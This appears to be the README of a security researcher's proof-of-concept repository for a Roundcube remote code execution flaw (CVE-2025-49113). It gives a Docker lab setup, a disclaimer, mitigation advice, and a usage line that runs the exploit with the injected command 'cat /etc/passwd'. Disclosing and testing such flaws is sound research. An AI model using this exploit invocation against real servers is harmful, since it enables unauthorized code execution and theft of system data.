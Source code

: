 # 📧 Roundcube ≤ 1.6.10 Post-Auth RCE via PHP Object Deserialization [CVE-2025-49113]

## 🔍 Writeup

A critical post-authentication Remote Code Execution vulnerability was discovered in Roundcube (versions ≤ 1.6.10), caused by insecure PHP object deserialization. This severe flaw has silently persisted in the codebase for over **10 years**.

For the full technical writeup and exploitation details, visit:

👉 [https://fearsoff.org/research/roundcube](https://fearsoff.org/research/roundcube)

---

## 🐳 Quick Installation (via Docker)

This will install Ubuntu 24.04, Roundcube, and all necessary dependencies inside a Docker container:

```bash
docker run --name ubuntu24 \
  -p 9876:80 \
  -v "$PWD/rc_install.sh":/root/rc_install.sh \
  -it ubuntu:24.04 \
  bash -c "chmod +x /root/rc_install.sh && /root/rc_install.sh && exec bash"
``` 

> ⚠️ **Note**: Use only in isolated environments. Do **not** expose vulnerable instances to the public internet.

## ⚠️ Disclaimer

This proof-of-concept code is provided for educational and research purposes only. The author and contributors assume no responsibility for any misuse or damage resulting from the use of this code. Unauthorized use on systems you do not own or have explicit permission to test is illegal and strictly prohibited.

## Run:
Make sure you have `php` installed on the system
```
php CVE-2025-49113.php http://127.0.0.1:9876/ roundcube fearsoff.org "cat /etc/passwd > /tmp/pwned"
```


## 👤 Author & Credits

- **Author**: Kirill Firsov ([https://x.com/k_firsov](https://x.com/k_firsov))  
- **Organization**: FearsOff ([https://fearsoff.org](https://fearsoff.org))

---

## 🛡️ Mitigation

If you're running Roundcube ≤ 1.6.10, update to the latest patched version immediately to eliminate this vulnerability.

---

## 📜 License

This project and associated documentation are provided under the MIT License.

